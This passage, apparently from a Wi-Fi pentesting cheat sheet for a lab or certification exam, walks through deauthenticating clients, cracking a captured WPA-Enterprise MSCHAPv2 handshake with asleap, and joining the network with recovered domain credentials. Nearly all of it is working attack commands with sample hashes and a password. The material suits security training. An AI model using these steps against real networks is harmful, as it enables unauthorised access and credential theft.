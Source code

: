 > Note: Delete `-c` option if you want to do it in broadcast (Kick all clients)  
> You need to use another interface in monitor mode, Also you need to set the interface to the same channel as the target network before performing the De-authenticate attack, As the following:

> Tip: If there are 2 Enterprise network with the same name, You need to perform the De-authenticate attack on both of the networks.


## Crack Handshake

Then once you get handshake you will copy and paste command of asleep and adding -W /path/to/wordlist

```
asleap -C 3c:bb:53:07:80:12:1b:22 -R fa:91:54:7d:cb:6c:fd:79:e9:61:ef:3b:c7:42:89:1d:72:1e:71:c7:f5:49:1a:ba -W /usr/share/john/password.lst
```

## Connect to the Network

```
nano mtg.conf
network={
  ssid="wifi-corp"
  scan_ssid=1
  key_mgmt=WPA-EAP
  eap=PEAP
  identity="CONTOSO\juan.tr"
  password="bulldogs1234"
  phase1="peaplabel=0"
  phase2="auth=MSCHAPV2"
}

sudo airmon-ng stop wlan0mon

sudo wpa_supplicant -i wlan0 -c mtg.conf

sudo dhclient wlan0 -v
```

Proof.txt
```
curl http://<ip>/proof.txt
```

# Open Network

## Setup Interface

```
sudo airmon-ng check kill && sudo airmon-ng start wlan0
```

